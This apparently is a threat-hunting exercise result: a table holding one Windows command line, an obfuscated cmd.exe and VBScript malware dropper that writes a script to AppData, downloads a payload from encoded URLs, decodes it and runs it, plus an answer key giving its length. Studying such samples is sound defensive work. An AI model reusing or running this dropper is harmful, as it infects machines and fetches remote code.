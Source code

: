 Results:

CommandLine | length
---|---
cmd.exe /V /C set "GSI=%APPDATA%\%RANDOM%.vbs" &amp;&amp; (for %i in ("DIm RWRL" "FuNCtioN GNbiPp(Pt5SZ1)" "EYnt=45" "GNbiPp=AsC(Pt5SZ1)" "Xn1=52" "eNd fuNCtiON" "SUb OjrYyD9()" "J0Nepq=56" "Dim UJv,G4coQ" "LT=23" "dO WHiLE UJv&lt;&gt;3016-3015" "G4coQ=G4coQ+1" "WSCRiPt.sLEeP(11)" "LoOP" "UsZK0=85" "ENd suB" "fuNctIon J7(BLI4A3)" "K5AU=29" "J7=cHR(BLI4A3)" "XBNutM9=36" "eNd fuNCtiON" "SUb MA(QrG)" "WXCzRz=9" "Dim Jw" "Qt7=34" "Jw=TIMeR+QrG" "Do WhiLE tIMEr&lt;Jw" "WSCRipT.sleEP(6)" "LOOp" "EXdkRkH=78" "enD sUB" "fUnCTion M1p67jL(BwqIM7,Qa)" "Yi=80" "dIM KH,ChnFY,RX,Pg,C6YT(8)" "Cm=7" "C6YT(1)=107" "Rzf=58" "C6YT(5)=115" "BSKoW=10" "C6YT(4)=56" "Cwd6=35" "C6YT(7)=110" "AQ=98" "C6YT(6)=100" "Y6Cm1I=82" "C6YT(2)=103" "JH3F2i=74" "C6YT(8)=119" "JRvsG2s=76" "C6YT(3)=53" "Yh=31" "C6YT(0)=115" "GuvD=47" "Tbvf1=67" "SeT KH=cReATeObject(A9y("3C3A1D301F2D063708772930033C3C201C2D0A34203B053C0C2D", "Yo"))" "V2JR=73" "Set ChnFY=KH.GETfilE(BwqIM7)" "RGeJ=68" "SeT Pg=ChnFY.opEnASTExTstReAM(6806-6805,7273-7273)" "CtxOk=82" "seT RX=KH.cREateteXtFiLe(Qa,6566-6565,2508-2508)" "XPL9af=76" "Do uNtil Pg.aTEnDOfStReam" "RX.wRitE J7(OyVNo(GNbiPp(Pg.rEAD(6633-6632)),C6YT(0)))" "LooP" "IQz=49" "RX.cloSe" "CBR1gC7=51" "Pg.cLOSE" "PmG=64" "eNd funCTIOn" "FUNcTION Ql9zEF()" "IBL2=16" "Ql9zEF=secoND(Time)" "MUTkPNJ=41" "End FUNcTiOn" "FUnCtion A9y(Am,T1GCbB)" "CWCH9r=82" "Dim V3sl0m,F4ra,AxFE" "RLLp8R=89" "For V3sl0m=1 To (lEn(Am)/2)" "F4ra=(J7((8270-8232)) &amp; J7((5328/74))&amp;(miD(Am,(V3sl0m+V3sl0m)-1,2)))" "AxFE=(GNbiPp(mID(T1GCbB,((V3sl0m MOd Len(T1GCbB))+1),1)))" "A9y=A9y+J7(OyVNo(F4ra,AxFE))" "NeXT" "DxZ40=89" "enD fUNction" "Sub AylniN()" "N6nzb=92" "DIm GWJCk,Q3y,GKasG0" "FDu=47" "GWJCk=93961822" "UZ=32" "FoR Q3y=1 To GWJCk" "GKasG0=GKasG0+1" "neXt" "B1jq2Hk=63" "If GKasG0=GWJCk tHen" "KXso=18" "MA((-176+446))" "IP4=48" "Yq(A9y("0B3B1D44626E7E1020055D3C20230A3B0C503D31230C3700593135344D201B53772C39173D475E2826","QcOi4XA"))" "YTsWy=31" "elSe" "DO5gpmA=84" "A8=86" "EnD iF" "XyUP=64" "eND SuB" "sUB GKfD3aY(FaddNPJ)" "SDU0BLq=57" "DiM UPhqZ,KbcT" "DxejPK=88" "KbcT="Drn4AW"" "GROlc7=82" "sET UPhqZ=CREAteOBJecT(A9y("332A7B05156A211A46243629",KbcT))" "Gs0g=3" "UPhqZ.OpEn" "TF1=68" "UPhqZ.tyPE=6867-6866" "RDjmY=24" "UPhqZ.wrITe FaddNPJ" "WiFgvS=78" "UPhqZ.SaVeTOfIle RWRL,8725-8723" "AF=4" "UPhqZ.closE" "JC7sf2=1" "Cke4e" "JM=88" "EnD suB" "fuNCtIoN Yq(PDqi1)" "I0=22" "DiM YTwwO,BAU7Cz,Uv,JiYwVG,IK" "GJDnbE=32" "On ErrOR reSume NeXT" "B7bT=1" "Uv="Tk"" "ELw=73" "sEt YTwwO=CREaTeObjeCT(A9y("3C07082602241F7A383C0E3807",Uv))" "K4=62" "GAiF" "IS1cj=19" "Set Dzc0=YTwwO.eNVIrONMEnt(A9y("013B183400023A","EQiWw"))" "D9S=38" "RWRL=Dzc0(A9y("14630811720C14","XU3"))&amp;J7((8002-7910))&amp; Ql9zEF &amp; Ql9zEF" "AtCQ=95" "JiYwVG="FcQqQ"" "Tf=79" "sEt BAU7Cz=CrEATEoBjECT(A9y("2E38122329103E1725683B1C3D19123701",JiYwVG))" "QUY=56" "BAU7Cz.OpeN A9y("0D0E1E","KJ"),PDqi1,7387-7387" "JX2=58" "BAU7Cz.SeTReQuEstHeAdeR A9y("1F59242828","OM8J"),A9y("0D354C3D356B567A0F6B6B","VoL8XF")" "URkT=71" "BAU7Cz.SEnD()" "QdFeA6=65" "if BAU7Cz.StaTUstExt=A9y("652840353A542512023C5B3D572F27","S5I2A") then" "PwTLW23=36" "GAiF" "R4xYBS=63" "MA(4)" "PjL6m=46" "GKfD3aY BAU7Cz.ReSpONSEbody" "Fj98=72" "Else" "D7T=91" "IK="NNXFD0"" "NK=74" "SeT BAU7Cz= CreATeobJECT(A9y("033125365F3D213E326A68030210121060",IK))" "QJ=35" "BAU7Cz.oPeN A9y("2A2F0E","TmjZ8d"),A9y("07351B31556E40785D6F5D735D6F5E715B6F5E795D6E02291B33412B1F26","Ao" ),5022-5022" "UMp8=85" "BAU7Cz.SeTReqUesTheadER A9y("1439190A24","AFXwm"),A9y("371038301A716C5F7B6644","LUi")" "NluUc=93" "BAU7Cz.SENd()" "EOtR=44" "If BAU7Cz.STaTUSTexT=A9y("03510A3B3A51146F105F163B365E0C","OS0x") THen GKfD3aY BAU7Cz.REsPOnSeBODY" "Q6sMEZ=54" "I9Nl7=56" "end if" "Dq=54" "eND FuNCTioN" "fUNctIon OyVNo(U1,Brt0d)" "SNOW=59" "OyVNo=(U1 ANd noT Brt0d)oR(NOt U1 And Brt0d)" "QTi5K=54" "enD funcTION" "Sub Cke4e()" "WTOyAw=62" "dIM EuM,WIbud,NCiN,Fs8HJ" "A5AT=92" "NCiN=""""" "SX6=93" "WIbud=RWRL &amp; Ql9zEF &amp; A9y("4A330F3F","WdGbOGp")" "V5B7Zh=92" "M1p67jL RWRL,WIbud" "L13=45" "iF Fs8HJ="" tHen MA(4)" "CHaK=38" "EuM="Iqxkf"" "U56m=67" "SEt VP=creATeoBJEcT(A9y("262B081420010C453521141407",EuM))" "U5Quw=85" "VP.Run A9y("1023287B163629755C0D6C06270F1E01536C6E7551","UsNL") &amp; WIbud &amp; NCiN,2912-2912,5755-5755" "A6mfcYL=76" "End sUB" "JoxZ3=43" "AylniN" "suB GAiF()" "G4vzM=95" "Dim DCRml9g, CjoNOY9" "For DCRml9g = 68 To 6000327" "CjoNOY9 = Rvwr + 23 + 35 + 27" "Next" "KK0H=46" "enD sUb") do @echo %~i)&gt;"!GSI!" &amp;&amp; start "" "!GSI!" | 4490

Answer: `4490`
